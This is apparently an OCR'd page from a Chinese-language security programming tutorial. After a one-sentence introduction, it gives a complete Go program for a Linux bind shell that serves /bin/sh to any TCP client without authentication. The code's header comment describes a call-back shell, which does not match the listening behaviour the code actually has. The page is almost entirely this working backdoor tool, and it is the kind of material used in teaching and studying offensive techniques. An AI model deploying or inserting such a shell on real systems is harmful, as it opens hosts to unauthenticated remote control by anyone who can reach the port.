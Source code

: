 在这个例子中，我们将创建一个 Linux 的绑定 shell，使用内置的`/bin/sh` shell。它将绑定并监听连接，为任何连接的用户提供一个 shell：

```
// Call back to a remote server and open a shell session
package main

import (
   "fmt"
   "log"
   "net"
   "os"
   "os/exec"
)

var shell = "/bin/sh"

func main() {
   // Handle command line arguments
   if len(os.Args) != 2 {
      fmt.Println("Usage: " + os.Args[0] + " <bindAddress>")
      fmt.Println("Example: " + os.Args[0] + " 0.0.0.0:9999")
      os.Exit(1)
   }

   // Bind socket
   listener, err := net.Listen("tcp", os.Args[1])
   if err != nil {
      log.Fatal("Error connecting. ", err)
   }
   log.Println("Now listening for connections.")

   // Listen and serve shells forever
   for {
      conn, err := listener.Accept()
      if err != nil {
         log.Println("Error accepting connection. ", err)
      }
      go handleConnection(conn)
   }

}

// This function gets executed in a thread for each incoming connection
func handleConnection(conn net.Conn) {
   log.Printf("Connection received from %s. Opening shell.", 
   conn.RemoteAddr())
   conn.Write([]byte("Connection established. Opening shell.\n"))

   // Use the reader/writer interface to connect the pipes
   command := exec.Command(shell)
   command.Stdin = conn
   command.Stdout = conn
   command.Stderr = conn
   command.Run()

   log.Printf("Shell ended for %s", conn.RemoteAddr())
} 
```

